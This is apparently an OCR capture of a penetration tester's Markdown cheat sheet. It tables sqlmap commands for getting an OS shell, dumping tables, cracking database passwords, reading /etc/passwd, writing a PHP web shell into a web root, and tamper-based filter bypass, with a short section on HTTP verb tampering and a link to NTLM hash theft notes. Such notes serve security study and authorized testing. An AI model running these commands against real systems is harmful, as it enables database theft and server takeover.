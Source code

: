 | `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`                                  | Writes a shell in specified server folder by using a request file (POST request via Burp and saved it as a local text file), and returns a fully interactive shell |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                       | DB Schema enumeration                                                                                                                                              |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                               | Search identifiers names (Tables)                                                                                                                                  |
| `sqlmap -u "http://www.example.com/?id=1" --search -C passw`                                              | Search identifiers names (Column)                                                                                                                                  |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                      | Dump specific table and columns                                                                                                                                    |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                            | With passwords flag sqlmap will try to crack the passwords                                                                                                         |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                              | Checking for DBA Privileges                                                                                                                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                      | Reading files                                                                                                                                                      |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing local files                                                                                                                                                |
| `--level 1-5 O --risk 1-5`                                                                                | Increase level or risk                                                                                                                                             |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users --tamper=between,randomcase`                    | Tampering to bypass security                                                                                                                                       |

### HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command** | **Description** |
| ---- | ---- |
| `-X OPTIONS` | Set HTTP Method with Curl |
### Stealing NTLM Hash with Responder
[[2. Attacking AD#Stealing NTLM hashes with Responder]]
